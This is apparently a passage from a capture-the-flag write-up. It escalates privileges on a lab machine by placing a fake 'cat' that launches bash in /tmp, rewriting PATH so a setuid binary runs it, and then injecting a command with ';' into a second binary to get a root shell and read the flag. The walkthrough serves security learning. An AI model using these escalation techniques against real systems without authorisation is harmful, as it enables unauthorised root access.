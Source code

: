 	$ ./msgmike

![image](https://user-images.githubusercontent.com/76552238/159152142-f1c4cf8a-e722-4fb7-adfd-a9504a6afb63.png)

It looks like we can exploit the PATH variable and add our own file named 'cat'.

	$ echo '/bin/bash' > /tmp/cat
	$ export PATH=/home/kane
	$ ./msgmike

![image](https://user-images.githubusercontent.com/76552238/159152457-8aa5da81-e29f-438f-bb3c-ea4fc50014f3.png)


NICE! We are successfully logged in as the user 'mike'.  
Going to the directory '/home/mike' we find another executable "msg2root".

![image](https://user-images.githubusercontent.com/76552238/159152479-68eb3f93-5c5b-471c-a51f-d0b0c469033d.png)

Let's look for any hidden strings in the executable.

	$ strings msg2root

![image](https://user-images.githubusercontent.com/76552238/159152499-b24f2154-79ae-4949-8375-3c02b3969c5d.png)

Looks like we to inject code using ';'.

	$ ./msg2root
![image](https://user-images.githubusercontent.com/76552238/159152549-86786779-65b3-4bd2-8902-aba69ca912be.png)

Now that we have a root shell we can read the flag.

	# cat /root/flag.txt

![image](https://user-images.githubusercontent.com/76552238/159152578-d56a3374-46fc-491d-8fca-835314e206ba.png)
